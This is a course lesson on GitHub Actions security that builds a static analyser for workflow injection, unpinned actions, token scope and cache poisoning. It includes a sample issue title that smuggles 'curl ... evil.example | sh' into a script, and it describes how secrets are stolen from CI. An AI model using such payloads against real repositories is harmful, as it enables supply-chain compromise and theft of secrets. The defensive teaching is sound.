

# A Workflow Is Code That Holds Your Secrets

*A workflow runs strangers' code and text with your token and secrets: pin actions by SHA, scope the token, never paste input into a script.*

## Metadata

| Field | Value |
|---|---|
| Type | Build |
| Languages | Python |
| Prerequisites | [A Pipeline Is a Graph of Jobs in Clean Rooms](https://cloudcaptain.io/learn/cicd/pipeline-runner) |
| Time | 90 minutes |
| Tools | zizmor, actionlint, GitHub Actions, Dependabot, Renovate |

<Quiz stage="pre" />

## The Problem

Monday, 11:20. A user opens an issue on a popular open-source CLI: the package published that morning as 4.2.1 phones home to an unknown host on install. The maintainers check the release run. It looks clean: tag push, checkout, `npm ci`, build, publish with `REGISTRY_TOKEN`. Every commit on `main` is reviewed. Nobody merged anything strange. The tarball still contains a file nobody wrote, and it came from the step that looked most harmless: "Restore the build cache".

The cache entry was written nine days earlier by a pull request that was closed as spam within the hour. The project runs a preview workflow on `pull_request_target`, so that fork contributors get a preview link and a comment. That trigger runs with the base repository's secrets and a read/write token, and the workflow checks out the pull request's head and runs `npm ci`. When GitHub made caches read-only for low-trust triggers, the job started printing a warning, and someone added `cache-mode: write` to make it go away. The spam pull request carried a `preinstall` script in `package.json`. It ran inside that job, copied the write-capable token that checkout had left on disk, saved a poisoned `node_modules` under the key the release workflow would restore next, and exited 0. The same week, the triage bot echoed issue titles straight into a shell script, and two actions in the preview job were referenced by tags that their owners, or anyone who stole their tokens, could move. That last risk is not theoretical: in March 2025 the tags of `tj-actions/changed-files`, an action used by more than 20,000 repositories, were moved to a commit that printed runner secrets into build logs.

None of this is in the application code. Every link of the chain is a line of YAML: a trigger, a `ref:`, a missing `permissions:`, a `cache-mode`, a `${{ }}` inside `run:`, a `uses:` without a SHA. You are going to write `wfaudit`, a static analyser that reads those lines with their line numbers, follows the chain across workflows and reports each finding with the attack in one sentence and the fix, then run zizmor and actionlint on the same files and check that they flag the same lines.

## The Concept

A workflow is a program that runs on a machine you rent, with your keys in its pockets, and some of its inputs come from strangers. Reviewing one means answering five questions, and each has a precise answer in the YAML.

**Who can start it?** `pull_request` from a fork runs the fork's copy of the workflow with a read-only `GITHUB_TOKEN` and no secrets. `pull_request_target`, `workflow_run` and `issue_comment` run the base repository's workflow on the default branch, with its secrets and, unless `permissions:` says otherwise, a token that can write. Anyone who can open a pull request or type a comment can start them. Those triggers are not wrong, but nothing inside them may trust the event.

**Whose code does it run?** Three sources. The checkout: `actions/checkout` with `ref: ${{ github.event.pull_request.head.sha }}` in a privileged workflow puts the contributor's files on disk, and the first `npm ci`, `make` or local action runs them (a "pwn request"). The actions: `uses: owner/repo@v1` resolves the tag when the job starts, and a tag is a movable pointer. A 40-character commit SHA is the hash of the content and cannot be moved; a lockfile (`.github/workflows/actions.lock`, a public preview) records the same pin outside the file. The runner: a self-hosted runner on a public repository runs fork code on your own machine.

**What text becomes code?** `${{ }}` is template expansion: GitHub substitutes the value into the script text before the shell starts. An issue title of `"; curl -sSf https://evil.example | sh; #` inside `echo "${{ github.event.issue.title }}"` is a command. The same value passed through `env:` and read as `"$TITLE"` is a string, because the shell expands variables after parsing. Writing that value into `$GITHUB_ENV` turns it back into code: a newline adds a second variable such as `BASH_ENV`, and every later step runs it.

**What can the token do?** `permissions:` sets the `GITHUB_TOKEN` scopes. Listing any scope sets every unlisted one to `none`; `permissions: {}` is no access at all. With no block anywhere, the job gets the owner's default, which is read and write on most scopes unless the organisation or repository chose the restricted default. Secrets are separate: a job sees the secrets its steps reference, an environment adds protection rules in front of its own secrets, and log masking hides only the exact string of a secret, never a slice or an encoding.

**What does it leave behind?** `actions/checkout` keeps the token on disk for later `git` commands. `GITHUB_ENV` and `GITHUB_PATH` shape every later step. The Actions cache outlives the run: entries saved in the default branch's scope are restored by every later workflow there, including releases, and nothing verifies them. Current GitHub lets only trusted triggers (`push`, `schedule`, `workflow_dispatch` and a few others) save there by default; `cache-mode: write` on a low-trust trigger switches that protection off.



A static analyser can answer all five questions without running anything, because each answer is a property of the parsed file: a trigger name, a ref string, an expression's context path, a permissions mapping, a cache mode. What it cannot know is runtime state (repository settings, which secrets exist, whether a branch is protected), so every finding says what to verify, and the fixed workflow must be clean for more than one tool.

## Build It

`code/main.py` is `wfaudit`. Parsing and every rule are pure functions over dataclasses, so the tests feed it inline YAML and the fixtures in `code/fixtures/`: five vulnerable workflows (`issue-triage`, `pr-preview`, `ci-report`, `release`, `self-hosted-ci`), their hardened twins under the same names in `fixed/`, and `expected.json`, which lists all 33 planted findings by file, line and rule, plus the ones zizmor and actionlint must also report.

### Step 1: a YAML subset that remembers line numbers

A finding without a line number is a rumour, so the parser records the line of every key and sequence item and the first content line of every value. Workflows lean on block scalars (`run: |`), so those are read from the raw lines, where `#` is not a comment:

```python
            child = path + (key,)
            self.key_lines[child] = line.number
            self.position += 1
            if rest:
                header = BLOCK_HEADER.match(rest)
                if header:
                    mapping[key], self.value_lines[child] = self.block_scalar(header.group(1), header.group(2), indent, line.number)
                else:
                    mapping[key] = parse_scalar(rest, line.number)
                    self.value_lines[child] = line.number
                continue
```

The subset covers block mappings and sequences (including the compact `steps:` then `- uses:` form), flow collections on one line, quoted scalars and `|`/`>` block scalars with chomping. Anchors, tags and multi-line quoted strings raise a `YamlError` with the line. One choice matters for workflows: only `true` and `false` are booleans. A YAML 1.1 parser such as PyYAML reads the key `on:` as the boolean `True`, which is why scripts that load workflows with it find no triggers.

### Step 2: triggers, jobs and steps

`load_workflow()` turns the document into `Workflow`, `Job` and `Step` dataclasses that keep the line of everything a rule may point at: each trigger, `permissions`, `cache-mode`, `runs-on`, each step's `uses`, the first line of its `run`, and each `with:` input. `on:` has three spellings and all become one mapping:

```python
def normalise_triggers(on: Any, doc: Document) -> Tuple[Dict[str, Any], Dict[str, int]]:
    on_line = doc.line("on")
    if isinstance(on, str):
        return {on: None}, {on: on_line}
    if isinstance(on, list):
        return {str(t): None for t in on}, {str(t): doc.line("on", i) for i, t in enumerate(on)}
    if isinstance(on, dict):
        return {str(k): v for k, v in on.items()}, {str(k): doc.line("on", k) for k in on}
    raise WorkflowError("", on_line, "on: must be an event name, a list of events or a mapping")
```

Steps inside a `parallel:` group are flattened into the job's list, so they are checked like any other step.

### Step 3: which text an outsider controls

Every rule about injection needs to know whether an expression reads attacker-controlled text. `contexts_in()` extracts context paths from an expression and normalises them, so `github.event['issue'].title` and `github.event.commits[0].message` become `github.event.issue.title` and `github.event.commits.*.message`. A path is attacker-controlled when it matches a known field (titles, bodies, comments, commit messages and author names, head branch names) or is a prefix of one, because `toJSON(github.event.pull_request)` contains the title:

```python
def segments_match(context: str, pattern: str) -> bool:
    left, right = context.split("."), pattern.split(".")
    return all(a == b or a == "*" or b == "*" for a, b in zip(left, right))
```

`github.event.issue.number` and `github.event.pull_request.head.sha` do not match: a number and a hash cannot carry a shell command. `inside_boolean_call()` exempts `contains()`, `startsWith()` and `endsWith()`, whose result is `true` or `false` whatever the input. `tainted_env()` follows one level of indirection: an `env:` value that reads attacker text taints the variable, so `${{ env.TITLE }}` is still an injection while `"$TITLE"` is not.

### Step 4: what a `uses:` points at

```python
def classify_uses(uses: str) -> str:
    if uses.startswith(("./", "$/")):
        return "local"
    if uses.startswith("docker://"):
        if "@sha256:" in uses:
            return "docker-digest"
        return "docker-tag" if ":" in uses[len("docker://"):] else "docker-latest"
    if "@" not in uses:
        return "no-ref"
    ref = uses.rsplit("@", 1)[1].strip()
    if SHA_RE.match(ref):
        return "sha"
    if SHORT_SHA_RE.match(ref):
        return "short-sha"
    return "ref"
```

A ref is high severity for third-party actions and medium for `actions/*` and `github/*`, whose tags are controlled by GitHub but are just as movable. Reusable workflow calls (`jobs.<id>.uses`) are checked the same way. If the directory has an `actions.lock`, refs it records for that workflow are locked and not reported; reusable workflow calls still are, because the lockfile does not cover them.

### Step 5: privileged triggers that run the contributor's code

In a workflow started by `pull_request_target`, `workflow_run` or `issue_comment`, `untrusted_fetch()` looks for a checkout whose `ref` or `repository` comes from the event's head, `gh pr checkout`, a `git fetch` of `pull/`, or an artifact downloaded from the triggering run. The severity depends on what happens next:

```python
            later_steps = [later for later in job.steps[position + 1:] if executes_code(later)]
            runner = next((later for later in later_steps if BUILD_COMMANDS.search(later.run) or not later.run), later_steps[0] if later_steps else None)
```

A later step that runs a build command, a relative path or a local action makes it critical, and the message names that step and its line. A checkout with nothing after it is still high: zizmor's documentation is right that argument injection and symlinks into the runner's credential files make "we never run it" a weak promise. The trigger itself is a separate `dangerous-trigger` finding on its own line.

### Step 6: template injection, with the line inside the script

The scanner reads each `run:` and each code input of a known action (`actions/github-script`'s `script:`) and turns an offset in the block into a line in the file:

```python
                for expression in EXPRESSION.finditer(text):
                    line = start + text.count("\n", 0, expression.start())
```

That is why the parser stored the first content line of every block scalar. The same scan over lines that write to `$GITHUB_ENV` or `$GITHUB_PATH` (`>>`, `>` or `tee -a`) gives `github-env-injection`: critical when attacker text reaches the file, directly or through a tainted variable, and medium for any computed value written in a `pull_request_target` or `workflow_run` workflow.

### Step 7: least privilege, computed from the steps

`needed_permissions()` builds the smallest token a job needs from a table of known actions (`actions/checkout` needs `contents: read`, `actions/deploy-pages` needs `pages: write` and `id-token: write`), inputs that change the answer (`role-to-assume` on `aws-actions/configure-aws-credentials` needs `id-token: write`), commands in `run:` (`gh pr comment` needs `pull-requests: write`, `git push` needs `contents: write`) and REST calls in `github-script`. Anything it does not know is listed as "not counted", never guessed. The comparison is one line:

```python
def excess_writes(granted: Dict[str, str], needed: Dict[str, str]) -> List[str]:
    return sorted(scope for scope, level in granted.items() if level == "write" and needed.get(scope) != "write")
```

There are three findings: no `permissions:` anywhere (medium, at the job), a job-level grant with unused writes, and a workflow-level grant that reaches jobs that do not need it. Every fix spells out the block to write, such as `build: contents: read, pull-requests: read; comment: pull-requests: write` for the preview workflow.

### Step 8: secrets, credentials and runners

A secret in `with:` or `env:` of an action that is not pinned and not GitHub's is high: the code that receives it can change without a commit in your repository. `toJSON(secrets)` loads every secret at once. `secrets: inherit` hands a reusable workflow everything. In scripts, the distinction is between using a secret and showing it:

```python
        printed = PRINTS.search(text) and "--password-stdin" not in text
        sliced = any(re.search(r"\$\{" + re.escape(name) + r"\s*(?::|/|#|%|\^|,)", text) for name in via_env)
```

`echo "${TOKEN:0:4}"` and `printf '%s' "$TOKEN" | base64` defeat masking and are high. `echo "$TOKEN" | docker login --password-stdin` is the documented safe pattern and passes. `${{ secrets.X }}` pasted into a script is medium: it lands in the generated script file and in the process arguments. `persist-credentials` is medium on every checkout without `persist-credentials: false`, high when a later `upload-artifact` uploads the workspace. A `self-hosted` label is low by default, high with `--public`, and critical with `--public` on a workflow that fork pull requests start.

### Step 9: cache poisoning is a path between two workflows

Neither half is dangerous alone, so this rule runs over all workflows at once. The effective cache mode follows GitHub's rules: an explicit `cache-mode` on the job, then on the workflow, then the trigger default:

```python
def effective_cache_mode(workflow: Workflow, job: Job) -> Tuple[str, int, bool]:
    if job.cache_mode:
        return job.cache_mode, job.cache_mode_line, True
    if workflow.cache_mode:
        return workflow.cache_mode, workflow.cache_mode_line, True
    if workflow.has(*TRUSTED_CACHE_TRIGGERS):
        return "write", 0, False
    return "read", 0, False
```

A source is a job started by a privileged trigger with an explicit `write` or `write-only` mode (critical if it also fetched untrusted code). A sink is a job that publishes (a tag push, a release branch, the `release` event, or a step such as `npm publish` or `gh release create`), can read the cache, and restores it (`actions/cache`, `setup-node` with caching, `setup-go`, which caches by default). A sink is high on its own and critical when a source exists in the same set, and the message names the source's file and line.

### Step 10: run it

```bash
cd curriculum/phases/08-cicd/02-workflow-security
python3 code/main.py --public code/fixtures/vulnerable                       # 33 findings: 11 critical, 10 high, 12 medium; exit 1
python3 code/main.py --public code/fixtures/fixed --permissions               # No findings, plus the least-privilege block per job; exit 0
python3 code/main.py --public --min-severity critical code/fixtures/vulnerable
python3 code/main.py --public --json code/fixtures/vulnerable | python3 -m json.tool | head -40
python3 code/main.py --public --sarif code/fixtures/vulnerable > wfaudit.sarif
python3 code/main.py .                                                        # a repository root: reads .github/workflows
```

Two of the critical findings, from the run over the whole directory:

```text
CRITICAL  untrusted-checkout    code/fixtures/vulnerable/pr-preview.yml:15  build / Check out the pull request
          `actions/checkout` with `ref: github.event.pull_request.head.sha` in a `pull_request_target` workflow fetches the contributor's code, and step "Build the preview" (line 26) runs it
CRITICAL  cache-poisoning       code/fixtures/vulnerable/release.yml:17  publish / Restore the build cache
          job publish publishes (it runs on a tag push) and `actions/cache` restores a cache entry; entries can be written by pr-preview.yml job build (line 10)
```

Exit codes are 0 for no findings, 1 for findings at or above `--min-severity`, and 2 for input that cannot be read or parsed, so a pipeline can tell "unsafe" from "could not check". The SARIF output has one rule per check with a `security-severity` (9.5, 8.0, 5.5, 3.0), which is what GitHub code scanning uses to label critical, high, medium and low.

<RunTests />

## Use It

Two tools do this job in practice. **zizmor** is a security-focused static analyser for GitHub Actions with more than forty audits; **actionlint** is a linter for workflow syntax, types and expressions that also catches script injection and runs shellcheck over `run:` scripts when it is installed. Install both at pinned versions (zizmor 1.31.1 from PyPI, actionlint 1.7.12 from its release page with the published checksum):

```bash
python3 -m venv ~/.venvs/zizmor
~/.venvs/zizmor/bin/pip install 'zizmor==1.31.1'
export PATH="$HOME/.venvs/zizmor/bin:$PATH"

V=1.7.12
curl -fsSLO "https://github.com/rhysd/actionlint/releases/download/v${V}/actionlint_${V}_linux_amd64.tar.gz"
curl -fsSL "https://github.com/rhysd/actionlint/releases/download/v${V}/actionlint_${V}_checksums.txt" | grep linux_amd64.tar.gz | sha256sum -c -
tar -xzf "actionlint_${V}_linux_amd64.tar.gz" actionlint
```

Run them on the same fixtures:

```bash
cd curriculum/phases/08-cicd/02-workflow-security/code/fixtures
zizmor --offline vulnerable/*.yml                 # cargo-style report; exit 14 means the worst finding is high
zizmor --offline --format json vulnerable/pr-preview.yml | python3 -m json.tool | head -60
zizmor --offline --format sarif vulnerable/*.yml > zizmor.sarif
zizmor --offline fixed/*.yml                      # No findings to report. Good job!
zizmor --offline --persona auditor vulnerable/self-hosted-ci.yml   # self-hosted-runner only appears for auditors
./actionlint vulnerable/*.yml                     # "github.event.issue.title" is potentially untrusted ... [expression]
./actionlint -format '{{json .}}' fixed/*.yml     # []
```

`--offline` skips the audits that call the GitHub API (impostor commits, known-vulnerable actions, refs whose version comment lies); in CI give zizmor a token to run them. zizmor's JSON has 0-based rows; its plain and SARIF output are 1-based, like wfaudit. `code/smoke.sh` runs all three tools on these fixtures, copied into Git repositories, and asserts that every planted finding marked for zizmor is reported by it on a span that contains the same line (unpinned uses, template injection, dangerous triggers, excessive permissions, artipacked, cache poisoning), that actionlint reports the three injections from its list of untrusted inputs, and that the fixed set is clean for all three. Some differences are deliberate and worth knowing. zizmor reports a workflow-level `permissions:` only in its pedantic persona when the workflow has a single job, and it knows nothing of what each action needs, so `release.yml`'s unused `id-token: write` is wfaudit's alone. actionlint's untrusted-input list has no `workflow_run` fields, so it misses `github.event.workflow_run.head_branch` in `ci-report.yml`. And actionlint 1.7.12 predates the `cache-mode` key and reports it as unexpected, which is why the fixed release workflow removes the cache step instead of setting `cache-mode: none`.

**The token.** Put `permissions: {}` at the top of every workflow and grant per job:

```yaml
permissions: {}

jobs:
  triage:
    runs-on: ubuntu-latest
    permissions:
      issues: write
```

Fork pull requests under `pull_request` get read-only tokens whatever the file says; `pull_request_target` does not. Set the organisation or repository default to the restricted setting as well, so a workflow that forgets the block fails closed. Events created with `GITHUB_TOKEN` (a push, a tag) do not start new workflow runs, except `workflow_dispatch` and `repository_dispatch`; that is a guard against loops, not a security boundary.

**The pins.** Resolve a tag to the commit it points at today, then pin it with the version as a comment:

```bash
git ls-remote https://github.com/actions/checkout 'refs/tags/v7.0.1*'   # for an annotated tag, the line ending ^{} is the commit
gh api repos/actions/checkout/commits/v7.0.1 --jq .sha                                    # 3d3c42e5aac5ba805825da76410c181273ba90b1
```

```yaml
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
  with:
    persist-credentials: false
```

Check that the SHA belongs to the action's own repository: a commit pushed to a fork is reachable through the parent's name too (zizmor's online `impostor-commit` audit checks this). Pins rot, so let a bot move them. Dependabot understands SHA pins with version comments:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
    groups:
      actions:
        patterns: ["*"]
```

Renovate does the same with the `helpers:pinGitHubActionDigests` preset in `renovate.json` (`"extends": ["config:recommended", "helpers:pinGitHubActionDigests"]`), and also pins the tags you have not pinned yet. GitHub's newer alternative is a workflow dependency lockfile, in public preview for GitHub Enterprise Cloud since October 2026: `gh extension install github/gh-actions-lock`, then `gh actions-lock` writes `.github/workflows/actions.lock` with the commit and the numeric owner and repository IDs of every action, including the actions your actions use. It does not cover reusable workflow calls, which still need a SHA. Organisation and repository policies can also require full-length SHA pins, which turns a forgotten pin into a failed run instead of a finding.

**Deploy secrets.** Put them in an environment, not in repository secrets, and protect it with required reviewers and a deployment rule (tags `v*` only). A job sees environment secrets only after it names the environment and the rules pass:

```yaml
jobs:
  publish:
    runs-on: ubuntu-latest
    environment: release
    permissions:
      contents: write
```

**Why tags are not enough: tj-actions/changed-files, March 2025.** An attacker obtained a token with write access to the action's repository (investigators linked it to an earlier compromise of `reviewdog/action-setup`), pushed a commit, and moved most of the existing version tags to it. Every workflow using `tj-actions/changed-files@v45` or similar ran the new code on its next run. That code read the runner process's memory and printed the secrets it found, base64-encoded twice so masking did not catch them, into the build log, which on public repositories anyone can read. It is tracked as CVE-2025-30066. Workflows pinned to a commit SHA from before the attack ran the old code and leaked nothing. Everything else in this lesson is about your own YAML; this one is about trusting someone else's tag.

| What you built | Real tool | Note |
|---|---|---|
| `parse_yaml()` with line numbers | zizmor's span-preserving YAML layer, actionlint's parser | both handle anchors, which GitHub has accepted in workflows since September 2025; wfaudit rejects them |
| `check_unpinned()` | zizmor `unpinned-uses`, Dependabot and Renovate for the updates | zizmor's default policy since 1.20 is hash-pin everything, `actions/*` included |
| `check_dangerous_triggers()`, `check_untrusted_checkout()` | zizmor `dangerous-triggers`; CodeQL's Actions queries | zizmor flags the trigger itself; wfaudit also names the step that runs the checkout |
| `check_template_injection()` | zizmor `template-injection`, actionlint `[expression]` | zizmor ranks every context by a generated capability table; actionlint has a fixed list |
| `check_permissions()` with `needed_permissions()` | zizmor `excessive-permissions`, GitHubSecurityLab/actions-permissions | zizmor does not compute the minimum per action; the monitor action learns it from real runs |
| `check_secrets()` | zizmor `overprovisioned-secrets`, `secrets-inherit`, `unredacted-secrets`, `secrets-outside-env` | the last one is auditor-only |
| `check_persist_credentials()` | zizmor `artipacked` | lower severity for checkout v6 and later, which keep the token under `$RUNNER_TEMP` |
| `check_github_env()` | zizmor `github-env` | zizmor parses the shell with tree-sitter; wfaudit matches lines |
| `check_cache_poisoning()` across files | zizmor `cache-poisoning` | both know `cache-mode`; zizmor checks one workflow at a time |
| `--sarif` | `zizmor --format sarif`, `github/codeql-action/upload-sarif` | upload either to see findings as code scanning alerts |
| not built: shell linting | actionlint with shellcheck | quoting bugs in `run:` are reliability bugs first and security bugs second |

<Quiz stage="check" />

## Ship It

Two artifacts in `outputs/`:

- **`skill-workflow-hardening.md`**: a runbook for hardening the workflows of one repository: inventory triggers, actions and secrets, run zizmor, actionlint and wfaudit, fix in a fixed order (privileged triggers and checkouts, injection, permissions, pins, credentials, caches, runners), move deploy secrets into protected environments, set up Dependabot or Renovate for the pins, add the scanners to CI with SARIF upload, and post a report with what changed and what is left.
- **`prompt-review-workflow-security.md`**: paste one workflow (and optionally the repository's visibility and the others it shares a cache with); the model returns each finding with line, severity, attack and fix, the least-privilege `permissions:` block per job, the hardened workflow, and the questions only a human with access to the settings can answer.

<ShipIt />

## Exercises

### Easy

Add an `insecure-commands` rule: an `env:` entry `ACTIONS_ALLOW_UNSECURE_COMMANDS: true` at any level re-enables the removed `::set-env` and `::add-path` log commands, so anything a step prints can set variables for later steps. Write the tests first: the variable at workflow, job and step level each gives one high finding on its own line, `false` gives none, and the finding appears in the SARIF rules list. Then plant it in a new vulnerable fixture and add the entry to `expected.json`.

### Medium

Audit composite actions. An `action.yml` with `runs.using: composite` has steps like a job, and `${{ inputs.x }}` in its `run:` is an injection when a caller passes event text. Load `action.yml` files found next to workflows, run the step rules on them, and mark `inputs.*` as tainted when any workflow in the set calls that action with an attacker-controlled `with:` value. Tests first: a composite action used with `title: ${{ github.event.issue.title }}` is reported at the line inside `action.yml`, the same action used with a constant is not. Compare with zizmor, which audits actions as well as workflows.

### Hard

Add `wfaudit --fix` that edits the file text in place without re-serialising it (so comments and formatting survive): move each injected `${{ ctx }}` in `run:` to a step `env:` entry with a derived name and replace it with `"${NAME}"`, add `persist-credentials: false` to checkouts, and insert the computed `permissions:` blocks. Prove it with tests that run the fixer on each vulnerable fixture, parse the result, check that only the intended keys changed, and check that wfaudit no longer reports those rules. Finish by running `zizmor --fix=safe` on a copy of the same files and writing down where the two fixers disagree.

<Quiz stage="post" />

## Key Terms

| Term | Common misconception | Precise definition |
|---|---|---|
| Pwn request | "`pull_request_target` is safe as long as we only build." | A privileged workflow (`pull_request_target`, `workflow_run`, `issue_comment`) that checks out a contributor's code and runs any of it, giving that code the base repository's secrets and write token. |
| Template injection | "Quoting `${{ }}` in the script makes it safe." | Expansion of `${{ }}` into script text before the shell parses it, so attacker-controlled text becomes code whatever quotes surround it; the fix is an `env:` variable read as `"$NAME"`. |
| SHA pin | "A version tag like `v4.2.1` is immutable." | A `uses:` reference to a full 40-character commit SHA, which names content and cannot be moved; tags and branches are pointers anyone with write access can move. |
| `GITHUB_TOKEN` permissions | "Without a `permissions:` block the token is read-only." | The scopes of the per-job token, set by `permissions:` at workflow or job level; without a block the owner's default applies, and listing any scope sets the rest to `none`. |
| Persisted credentials | "The token disappears after checkout." | `actions/checkout` stores the job's token for later `git` commands unless `persist-credentials: false`, so later steps and uploaded artifacts can read it. |
| Cache poisoning | "Caches are per workflow, so a PR cannot affect a release." | Writing a cache entry from untrusted code into a scope that a privileged workflow restores; entries in the default branch's scope are shared by all its workflows and are not signed. |
| `cache-mode` | "It is a performance setting." | A workflow or job key (`read`, `write`, `write-only`, `none`) that bounds cache access; low-trust triggers default to `read`, and an explicit `write` lifts that protection. |
| Log masking | "Secrets can never appear in logs." | Replacement of the exact secret strings in log output with `***`; a substring, an encoding or a value derived from a secret is printed in clear. |
| SARIF | "A GitHub-specific report format." | The OASIS Static Analysis Results Interchange Format (version 2.1.0): runs, tool rules and results with locations, which code scanning and most editors import. |

## Further Reading

- [GitHub Actions Fundamentals](https://cloudcaptain.io/docs/tools/github-actions/fundamentals): triggers, jobs, contexts and secrets, the vocabulary every rule in this lesson reads.
- [GitHub Actions Cheat Sheet](https://cloudcaptain.io/docs/tools/github-actions/cheatsheet): the syntax for `permissions`, environments and expressions in one place.
- [DevSecOps Fundamentals](https://cloudcaptain.io/docs/tools/devsecops/fundamentals): where workflow scanning sits next to dependency, image and IaC scanning in a pipeline.
- [Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use): GitHub's own guidance on script injection, third-party actions, lockfiles and SHA pins.
- [Securely using pull_request_target](https://docs.github.com/en/actions/reference/security/securely-using-pull_request_target): what that trigger may and may not do, from the people who run it.
- [Dependency caching reference](https://docs.github.com/en/actions/reference/workflows-and-actions/dependency-caching): cache scopes, the low-trust trigger restriction and `cache-mode`.
- [Keeping your GitHub Actions and workflows secure: preventing pwn requests](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/): the GitHub Security Lab article that named the attack.
- [zizmor audit rules](https://docs.zizmor.sh/audits/): every audit with its persona, examples and remediation; the best map of what else can go wrong.
- [actionlint checks](https://github.com/rhysd/actionlint/blob/main/docs/checks.md): syntax, type and injection checks, including the list of untrusted inputs.
- [GHSA-mrrh-fwg8-r2c3](https://github.com/advisories/GHSA-mrrh-fwg8-r2c3): the advisory for the tj-actions/changed-files compromise (CVE-2025-30066).
- [SARIF 2.1.0](https://docs.oasis-open.org/sarif/sarif/v2.1.0/sarif-v2.1.0.html): the OASIS standard behind `--sarif`.
